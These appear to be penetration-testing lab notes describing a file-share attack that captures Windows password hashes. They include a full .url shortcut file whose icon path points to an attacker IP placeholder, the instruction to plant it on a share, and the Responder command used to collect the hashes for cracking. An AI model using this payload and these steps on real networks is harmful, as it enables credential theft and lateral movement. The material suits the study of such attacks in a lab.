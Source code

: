 
If we have compromised a particular user, and that user has any sort of share access, file share access.

- we can utilize this to capture more hashes via responder
- Go back and try to crack this hashes
- Then get a user with more advanced privileges

This attack requires a compromised user account or an open file share, where you can put a file in the share.

- The content of the file contains what is shown below, whereby we will replace `x.x.x.x` with our attacker IP

```html
[InternetShortcut]
URL=blah
WorkingDirectory=blah
IconFile=\\x.x.x.x\%USERNAME%.icon
IconIndex=1
```

- We can then save the file as `"@test.url"` and upload it to a share on your THEPUNISHER vm (This should be done in the windows system)
- Then start up responder with the command `sudo responder -I wlan0 -v`
- Navigate back to that share where the file was uploaded on your THEPUNISHER vm and go back to your terminal where responder is opened, you should see the hashes dumped





